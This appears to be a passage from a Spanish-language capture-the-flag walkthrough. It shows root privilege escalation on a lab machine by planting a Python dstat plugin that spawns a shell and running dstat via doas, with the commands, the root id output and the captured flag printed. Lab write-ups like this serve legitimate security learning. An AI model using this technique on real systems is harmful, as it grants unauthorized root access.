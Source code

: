 >**dstat** es una herramienta de estadística de recursos versátil. Combina la capacidad de iostat, vmstat, netstat e ifstat. Nos permite monitorear los recursos del sistema en tiempo real.

Utilizando [GTFOBINS](https://gtfobins.github.io/gtfobins/dstat/) podemos darnos cuenta de que `dstat` permite **ejecutar scripts de python** cargados como "Plugins externos" si están ubicados en uno de los directorios indicados en el manual de dstat abajo de "FILES"

```bash
player@soccer:/tmp$ man dstat
...[snip]...
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/

```

Como `doas` nos permite ejecutar `dstat` como **root**, vamos a utilizar la forma de "Sudo" creando un script en python para obtener una shell insertándolo en la ruta `/usr/local/share/dstat/dstat_xxx.py`

```bash
player@soccer:/tmp$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
player@soccer:/tmp$ doas /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
7adb4c2f31eef4f9e7877f05fedec746
$ 
```

Y listo, obtenemos una shell como **root**.
****
